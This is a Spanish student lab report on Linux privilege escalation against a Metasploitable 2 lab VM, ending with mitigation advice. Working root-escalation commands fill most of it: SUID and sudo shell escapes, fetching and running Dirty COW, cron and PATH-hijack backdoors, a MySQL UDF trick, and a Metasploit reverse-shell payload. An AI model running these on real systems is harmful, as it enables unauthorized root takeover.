

||**Ciberseguridad 202615**|
| :- | :- |

# Práctica Nro. 8: Escaneo de Vulnerabilidades y Explotación Avanzada (Enfoque de Ataque Integral en Equipo)

## Datos de Identificación

| Apellido, Nombre | Cédula de Identidad | Nro. de Práctica | Fecha |
| :--- | :---: | :---: | :--- |
| Gil, Jesús | 30175126 | 8 | 14-11-2025|
| Guilarte, Andrés | 30246084 | 8 | 014-11-2025 |

**Grupo:** 4

**📋 INFORMACIÓN GENERAL**

**Contexto del Escenario**

Una empresa ficticia "TechCorp Solutions" ha contratado a su equipo de pentesting para realizar una auditoría de seguridad completa de su infraestructura. La empresa tiene varios servicios expuestos y sospecha que pueden tener vulnerabilidades críticas.

**Su equipo se dividirá en 5 grupos especializados**, cada uno responsable de una fase específica del ataque, pero **TODOS trabajarán en paralelo** sobre el mismo objetivo, documentando sus hallazgos para una presentación integrada final.

**Objetivos de Aprendizaje**

- Realizar reconocimiento y enumeración profesional
- Identificar y explotar vulnerabilidades específicas
- Mantener persistencia y escalar privilegios
- Extraer información sensible
- Documentar hallazgos de forma profesional
- Proponer remediaciones efectivas

**Requisitos Técnicos**

- **Kali Linux** (Atacante)
- **Metasploitable 2** (Objetivo)
- **Herramientas**: Nmap, Metasploit, Hydra, John the Ripper, Netcat
- **Conexión de red**: Ambas VMs en la misma red (NAT o Host-Only)
-----
**🎯 ESTRUCTURA DE EQUIPOS Y FASES**

**Visión Integral del Ataque**

EQUIPO 1: Reconocimiento → EQUIPO 2: Acceso Inicial → EQUIPO 3: Post-Explotación 

`    `↓                           ↓                            ↓

EQUIPO 4: Escalada ← ← ← ← EQUIPO 5: Exfiltración y Persistencia

**IMPORTANTE**: Cada equipo trabaja **independientemente** en su fase, pero al final unirán sus hallazgos para mostrar el **ciclo completo de un ataque APT** (Advanced Persistent Threat).

**👥 EQUIPO 4: ESCALADA DE PRIVILEGIOS**

**Fase: Privilege Escalation**

## Objetivo

Escalar privilegios desde el usuario comprometido (msfadmin) hasta obtener acceso root completo, utilizando múltiples técnicas y vectores identificados por el Equipo 3.

**Escenario Específico**

Eres el equipo de **Escalada de Privilegios**. Tienes acceso como usuario limitado. Tu misión es convertirte en root usando al menos **3 técnicas diferentes**.

-----
## 📝 PROCEDIMIENTO PASO A PASO

### Preparación: Establecer Acceso

Se conectó desde la máquina "Analista", la máquina atacante, mediante el protocolo ssh usando el shortcut creado previamente por el equipo 2, luego de ello se ejecutaron los coamndos whoami e id para verificar el nombre de usuario, el nombre del grupo principal al cual pertenece y sus GID(Identificadores de grupo) para verficiar que efectivamente se accdeió con el usaurio "msfadmin" de la máquina objetvio desde la máquina atacante.

`ssh msfadmin@192.168.100.20`

`whoami`

`id`

Luego de ello, se procedió a crear el directorio de trabajo con el comando mkdir, donde se dejaran los archivos de evidencia necesarios para demostrar la escalada de privilegios exitosa y por último se uso el comando cd para cambiar el directorio actaul al creado para comprobar que fue creado sin problemas

`mkdir -p /tmp/equipo4\_privesc`

`cd /tmp/equipo4\_privesc`

-----
### 🎯 TÉCNICA 1: Explotación de Binarios SUID**

El primer método a probar es la explotación de los archivos con bit SUID ya que estos se ejecutan con los permisos del propietario (generalmente root), no del usuario que los ejecuta.

El SUID(**Set User ID**) es un permiso especial en los sistemas operativos tipo UNIX que como se estableció arriba permite que cualquier usuario ejecuta los archivos con los permisos que posee el usuario propietario del archivo, esto es una vulnerabilidad que puede ser explotada con el motivo de conseguir acceso no autorizado al sistema.

##### **Paso 1: Identificar Binarios SUID**

Se ejecutó el comando `find / -perm -4000 -type f 2>/dev/null > suid\_binaries.txt` para encontrar los archivos con el bit SUID activado, la parte del comando `find / -perm -4000 -type f` se encarga de realizar la búsqueda de los archivos con el bit SUID, a continuacion se presenta una explicación de las estrucutra del comando:
   * **find /:** Inicia la búsqueda desde la raíz del sistema (/) y recorre todo el árbol de directorios.
   * **-perm -4000 :** Filtra archivos que tienen el bit SUID activado. En notación octal `4000` es la máscara SUID; el prefijo `-` en `find` significa “coincide si todos los bits indicados están presentes” (es decir, al menos la SUID).
   * **-type f:** Limita la búsqueda a archivos regulares (no directorios, enlaces, dispositivos, etc.).

La partes restantes del comando, `2>/dev/null > suid\_binaries.txt`, se encaragan de dos cosas:
   * La parte que esta antes del operador mayor que ( > ), `2>/dev/null`, se encarga de redigir la salidad de error a null y por ello no se obsevan mensajes de error al ejecutar el comando en la terminal.
   * La parte restante, `> suid\_binaries.txt`, se encaraga de redirigir la salida exitosa del comando hacia el archivo de texto suid_binarie.txt. Esto se logra ya que el operador mayor que ( > ) es el usado para indicar una redirección de salida en sistemas operativos Unix.

Luego de la ejecución anterior se ejecutó `cat suid\_binaries.txt` para visualizar en la terminal el contenido del archivo creado anteriormente para verificar si se encontraron resultados exitosos del comando find.

Se ejecutó el comando `find / -perm -4000 -type f 2>/dev/null | grep -E "nmap|vim|find|bash|more|less|nano|cp"` para poder encontrar los archivos con el bit SUID que cumplan con la expresión regular establecida, esto se logra ya que el operador pip ( | ) permite conectar dos comandos y en este caso se está conectando la primera parte del comando anterior con el comando `grep -E "nmap|vim|find|bash|more|less|nano|cp"` ya que este tiene como fin filtrar la lista formada por la primera parte para que solo se visualicen los comandos que cumplan con la expresión regular `"nmap|vim|find|bash|more|less|nano|cp", la bandera `-E` en el comando grep habilitar el uso de las expresiones regulares extendidas como criterio de filtro y el pipe dentro de la expresion permite concatenar las condiciones haciendo que funcione como un operador lógico OR.

#### **Paso 2: Explotar nmap (si está con SUID)**

Se ejecutó el comando `ls -la /usr/bin/nmap` para comprobar que nmap contiene el bit de SUID activado para usarse como vector de escalada de privilegios, efectivamente el comando arrojó que el archivo ejecutable de nmap tiene el bit encendido.

Se ejecuto `nmap --interactive` para ejecutar el programa de nmap en modo interactivo, cabe destacar que al tener el bit SUID encendido el proceso temporalmente los privilegios de su propietario, en este caso root.

Posteriormente se ejecutó `nmap> !sh` para abrir una shell, una shell es un programa que actúa como una **interfaz de línea de comandos (CLI)** entre el **usuario** y el **núcleo (kernel) del sistema operativo**. Al haberse ejecutado el proceso con los permisos de root, la shell resultante hereda los mismos lo que hace que la escalada de privilegios sea exitos al ahora tener el usuario root en control para ejecutar acciones sobre el objetivo.

Para comprobar que efectivamente ahora se está en el usuario root se ejecutaron los coamndos `whoami` y `id` para verificar el usuario actual y sus diferentes IDs correspondientes a su rol dentro del sistema dando como resultado la escalada exitosa como se puede ver en la imagen de abajo.

Por último, se ejecutó `echo "Root via nmap SUID - Equipo 4" > /root/equipo4\_nmap\_root.txt` para escribir dentro u=de un archivo txt ubicado en la carpeta root un mensaje que sirva como prueba irrefutable de que se logró la escalada de privilegios en el sistema.

#### **Paso 3: Explotar otros binarios SUID comunes**

**find con SUID:**

\# Si find tiene SUID

find /home -exec /bin/sh \; -quit

**vim con SUID:**

\# Si vim tiene SUID

vim -c ':!/bin/sh'

**bash con SUID:**

\# Si bash tiene SUID

/bin/bash -p

Los comandos ubicados previamente a este párrafo fueron ejecutado pero fueron redundantes al ya haber escalado los privilegios mediante la explotación de la verisón antigua de nmap por lo que nos detallará tanto en ellos, lo que se hará es presentar tablas con los componentes de cada comando y explicar su función dentro de la escalada de privilegios.

| Comando | Acción | Resultado con SUID |
| :--- | :--- | :--- |
| **`find /home`** | Inicia la búsqueda en `/home`. | El proceso de `find` se ejecuta con privilegios de **root**. |
| **`-exec /bin/sh \;`** | Ejecuta el comando `/bin/sh` (una shell) por cada archivo encontrado. | La shell se lanza como un subproceso, **heredando los privilegios de root**. |
| **`-quit`** | Detiene `find` inmediatamente. | Asegura que la shell de root se lance de forma rápida. |

**Comando Completo:** `find /home -exec /bin/sh \; -quit`

| Comando | Acción | Resultado con SUID |
| :--- | :--- | :--- |
| **`vim -c`** | Inicia el editor `vim` y ejecuta un comando interno. | El proceso de `vim` se ejecuta con privilegios de **root**. |
| **`':!/bin/sh'`** | El **`!`** le indica a `vim` que ejecute el comando `/bin/sh` en el sistema operativo. | La shell (`/bin/sh`) se lanza como un subproceso, **heredando los privilegios de root**. |

**Comando Completo:** `vim -c ':!/bin/sh'`

Comando | Acción | Resultado con SUID |
| :--- | :--- | :--- |
| **`/bin/bash`** | Ejecuta el intérprete de comandos Bash. | El proceso de `bash` se inicia con privilegios de **root**. |
| **`-p`** | El flag de **Preserve** (preservar). | Fuerza a `bash` a **mantener** los privilegios elevados de **root** obtenidos por el SUID. |

**Comando Completo:** `/bin/bash -p`

-----
### 🎯 TÉCNICA 2: Explotación del Kernel**

El segundo método a probar es la explotación del Kernel debido a que Kernels antiguos tienen vulnerabilidades conocidas que permiten escalada de privilegios local.

#### **Paso 1: Identificar Versión del Kernel**

uname -a

cat /etc/issue

cat /proc/version

\# Guardar información

uname -a > /tmp/equipo4\_privesc/kernel\_info.txt

**Paso 2: Buscar Exploits Conocidos**

\# Desde Kali (otra terminal)

searchsploit linux kernel 2.6 privilege escalation

searchsploit linux kernel 2.6.24

\# Ejemplo: Dirty COW (CVE-2016-5195) - funciona en muchos kernels

searchsploit dirty cow

**Paso 3: Usar Exploit Pre-compilado (Ejemplo: Dirty COW)**

\# En Kali, descargar exploit

searchsploit -m 40839

\# O descargar manualmente

cd /tmp

wget https://www.exploit-db.com/download/40839 -O dirtycow.c

\# Transferir a Metasploitable

\# Opción A: Levantar servidor web en Kali

python3 -m http.server 8000

\# En Metasploitable, descargar

cd /tmp/equipo4\_privesc

wget http://192.168.100.9:8000/40839.c

\# Opción B: Usar SCP

\# En Kali:

scp dirtycow.c msfadmin@<IP\_METASPLOITABLE>:/tmp/equipo4\_privesc/

**Paso 4: Compilar y Ejecutar Exploit**

\# En Metasploitable

cd /tmp/equipo4\_privesc

\# Compilar

gcc -pthread dirtycow.c -o dirtycow -lcrypt

\# Ejecutar (CUIDADO: puede desestabilizar el sistema)

./dirtycow

\# Seguir instrucciones del exploit

\# Generalmente crea un nuevo usuario con UID 0

\# Verificar

su firefart  # O el usuario que creó el exploit

\# Password: (la que configuraste)

whoami  # Debería ser root

id

\# Crear evidencia

echo "Root via Dirty COW - Equipo 4" > /root/equipo4\_dirtycow\_root.txt

**NOTA IMPORTANTE**: Dirty COW puede ser destructivo. En un entorno de producción, usa con extrema precaución. Para esta práctica, asegúrate de tener snapshots de tus VMs.

-----
**

**🎯 TÉCNICA 3: Explotación de Sudo Mal Configurado**

**Paso 1: Verificar Permisos Sudo**

sudo -l

\# Buscar comandos que puedas ejecutar como root

\# Ejemplo de salida:

\# User msfadmin may run the following commands:

\#     (root) NOPASSWD: /usr/bin/nmap

**Paso 2: Explotar Sudo Nmap**

\# Si puedes ejecutar nmap como sudo

sudo nmap --interactive

nmap> !sh

\# Verificar

whoami  # root

**Paso 3: Explotar Otros Comandos Sudo Comunes**

**vi/vim:**

sudo vi

\# Dentro de vi:

:!/bin/bash

**less/more:**

sudo less /etc/hosts

\# Dentro de less, presionar:

!/bin/bash

**find:**

sudo find /home -exec /bin/bash \;

**awk:**

sudo awk 'BEGIN {system("/bin/bash")}'

-----
**

**🎯 TÉCNICA 4: Explotación de Tareas Cron**

**Paso 1: Revisar Tareas Cron**

cat /etc/crontab

ls -la /etc/cron.\*

crontab -l

**Paso 2: Buscar Scripts Modificables**

\# Buscar scripts ejecutados por cron

find /etc/cron\* -type f -perm -o+w 2>/dev/null

\# Buscar scripts en crontab

cat /etc/crontab | grep -v "^#"

**Paso 3: Modificar Script de Cron (si es posible)**

\# Ejemplo: Si encuentras un script modificable ejecutado como root

echo '#!/bin/bash' > /path/to/script.sh

echo 'cp /bin/bash /tmp/rootbash' >> /path/to/script.sh

echo 'chmod +s /tmp/rootbash' >> /path/to/script.sh

\# Esperar a que cron ejecute el script

\# Luego:

/tmp/rootbash -p

whoami  # root

-----
**

**🎯 TÉCNICA 5: Explotación de Servicios Vulnerables**

**MySQL UDF (User Defined Function) Exploit**

\# Conectar a MySQL como root (sin contraseña en Metasploitable)

mysql -u root

\# Dentro de MySQL

mysql> use mysql;

mysql> create table foo(line blob);

mysql> insert into foo values(load\_file('/tmp/raptor\_udf2.so'));

mysql> select \* from foo into dumpfile '/usr/lib/raptor\_udf2.so';

mysql> create function do\_system returns integer soname 'raptor\_udf2.so';

mysql> select do\_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');

mysql> \q

\# Ejecutar bash con privilegios

/tmp/rootbash -p

whoami  # root

**NOTA**: Necesitas el archivo raptor\_udf2.so. Puedes compilarlo o descargarlo.

-----
**🎯 TÉCNICA 6: Path Hijacking**

**Contexto**

Si un script ejecutado como root usa comandos sin ruta absoluta, podemos crear nuestro propio comando malicioso.

**Procedimiento**

\# Crear directorio para nuestros binarios maliciosos

mkdir /tmp/hijack

cd /tmp/hijack

\# Crear "comando" malicioso (ejemplo: ps)

echo '#!/bin/bash' > ps

echo 'cp /bin/bash /tmp/rootbash' >> ps

echo 'chmod +s /tmp/rootbash' >> ps

echo '/bin/ps' >> ps  # Ejecutar el ps real para no levantar sospechas

chmod +x ps

\# Modificar PATH para que busque primero en nuestro directorio

export PATH=/tmp/hijack:$PATH

\# Ahora, si algún script con sudo ejecuta "ps" sin ruta absoluta...

\# (Esto requiere encontrar tal script primero)

-----
**

**🎯 TÉCNICA BONUS: Metasploit Local Exploit Suggester**

**Desde Kali con Metasploit**

\# Si tienes una sesión de Meterpreter activa

msfconsole

\# Obtener sesión primero (ejemplo con usermap\_script)

msf6 > use exploit/multi/samba/usermap\_script

msf6 exploit > set RHOSTS <IP\_METASPLOITABLE>

msf6 exploit > set payload cmd/unix/reverse\_netcat

msf6 exploit > set LHOST <IP\_KALI>

msf6 exploit > exploit

\# Una vez con shell, background

^Z  # Ctrl+Z

y

\# Usar suggester

msf6 > use post/multi/recon/local\_exploit\_suggester

msf6 post > set SESSION 1

msf6 post > run

\# Revisar exploits sugeridos y probarlos

-----
**📊 ENTREGABLES DEL EQUIPO 4**

1. **Reporte de Escalada de Privilegios** que incluya:
   1. Resumen ejecutivo de técnicas exitosas
   1. Detalle de cada método intentado
   1. Screenshots de acceso root obtenido
   1. Comandos ejecutados paso a paso
   1. Análisis de por qué funcionó cada técnica
   1. Comparación de efectividad de métodos
1. **Archivos técnicos**:
   1. suid\_binaries.txt
   1. kernel\_info.txt
   1. Exploits utilizados (código fuente)
   1. Screenshots de whoami mostrando root
   1. Archivos creados en /root/ como evidencia
1. **Presentación** (10-15 minutos):
   1. Demostrar EN VIVO al menos 2 técnicas
   1. Explicar vectores de escalada
   1. Mostrar acceso root conseguido
   1. Discutir dificultad de cada método
   1. Entregar acceso root documentado al Equipo 5
1. **Handoff al Equipo 5**:
   1. Credenciales root
   1. Métodos de acceso root
   1. Archivos/backdoors creados
   1. Recomendaciones de persistencia
-----
**🤔 PREGUNTAS DE REFLEXIÓN**

1. ¿Cuál técnica fue más efectiva y por qué?
1. ¿Qué técnica dejó menos rastros?
1. ¿Cómo detectaría un IDS/HIDS estos intentos de escalada?
1. ¿Qué logs se generaron durante la escalada?
1. ¿Cuál técnica es más aplicable en sistemas modernos?
1. ¿Qué diferencia hay entre escalada vertical y horizontal?
-----
**🛡️ MEDIDAS DE MITIGACIÓN**

1. **Binarios SUID**:
   1. Auditar regularmente archivos con SUID/SGID
   1. Remover SUID de binarios innecesarios
   1. Usar nosuid en montajes de particiones
1. **Kernel**:
   1. Mantener kernel actualizado
   1. Aplicar parches de seguridad regularmente
   1. Implementar kernel hardening (grsecurity, SELinux)
1. **Sudo**:
   1. Configurar sudo con principio de mínimo privilegio
   1. Evitar NOPASSWD en comandos peligrosos
   1. Auditar configuración de sudoers regularmente
   1. Usar sudo -l restrictivo
1. **Cron**:
   1. Permisos estrictos en scripts de cron
   1. Usar rutas absolutas en scripts
   1. Auditar tareas cron regularmente
1. **General**:
   1. Implementar AppArmor o SELinux
   1. Monitorear intentos de escalada (auditd)
   1. Implementar detección de anomalías
   1. Segmentación y contenedores
   1. Principle of Least Privilege (PoLP)
-----